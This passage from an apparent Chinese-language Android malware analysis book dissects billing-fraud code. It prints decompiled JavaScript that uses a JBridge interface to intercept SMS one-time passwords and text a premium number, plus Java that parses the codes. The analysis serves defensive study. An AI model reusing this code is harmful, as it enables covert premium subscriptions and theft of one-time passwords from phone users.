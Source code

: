 *清单 3-31：JavaScript 代码用于订阅高级服务。*

首先，代码使用`querySelector`方法尝试在订阅网站上找到电话号码输入框。找到后，代码将设备的电话号码输入到该字段中，使用 JavaScript 点击订阅按钮，并调用`nextThings`方法。

列表 3-32 展示了`nextThings`中的代码摘录，许多行调用了桥接对象的`call`方法。由于桥接对象由 Java 类`zse4`定义，我们可以轻松地跟踪这些行的作用。对`zse4`的分析确认了命令名称与其含义一致：JavaScript 代码试图拦截一条传入的短信(`popMsg`)，并向号码 9956 发送确认短信以完成注册流程(`textTo`)。

```
var numm = '9956';
var kkey = 'OK';
var sms1 = numm + '---' + kkey;
var sms11 = '+' + numm + '---' + kkey;
window.JBridge.call('log', 'sms1:' + sms1);
var andupin = window.JBridge.call('popMsg', '1::(\\\\d{3,6})');
if (andupin == '9956') {
  window.JBridge.call('textTo', sms11);
  window.JBridge.call('textTo', sms1);
  window.JBridge.call('log', 'sms1');
  window.JBridge.call('finish', '100');
} else {
  window.JBridge.call('textTo', sms11);
  window.JBridge.call('textTo', sms1);
  window.JBridge.call('log', 'nopinsms1');
  window.JBridge.call('finish', '305');
}
```

*列表 3-32：有效载荷通过 JavaScript 接口 JBridge 连接 Java 和 JavaScript 代码。*

还有一个谜团：JavaScript 命令是如何在订阅网站的上下文中执行的呢？对此有一个标准的 Android API：`WebView.evaluateJavascript`，它允许应用将任何 JavaScript 代码注入到网站中。

#### ***完成注册流程***

在另一个代码位置，`vgy7Var.yhn6`列表被读取，并且拦截到的短信和通知被处理。通过在 jadx 中快速查阅，我们发现代码中唯一读取该列表的地方是在`bhu8`方法中。

如列表 3-33 所示，该方法接收一个形式为`number::string`的字符串参数，并在双冒号(`::`)处分割。该参数的第一部分作为正则表达式来解析短信。第二部分包含一个正则表达式捕获组的数字，表示预期的一次性密码的位置。该方法还接受一个整数参数，用于在找不到预期短信时使当前线程进入休眠状态。它可能这样做是为了等待短信到达，然后再次检查它。

```
public String bhu8(String str, int i) {
  String remove;
  for (int i2 = 0; i2 < 107; i2++) {
    if (this.yhn6.size() > 0 && (remove = this.yhn6.remove(0)) != null) {
      String[] split = str.split("::");
      Matcher matcher = Pattern.compile(split[1]).matcher(remove);
      if (matcher.find()) {
        return matcher.group(Integer.parseInt(split[0]));
      }
    }
    try {
      Thread.sleep(i / 107);
    } catch (InterruptedException e) {
    }
  }
  return "";
}
```

*列表 3-33：解析一次性密码*

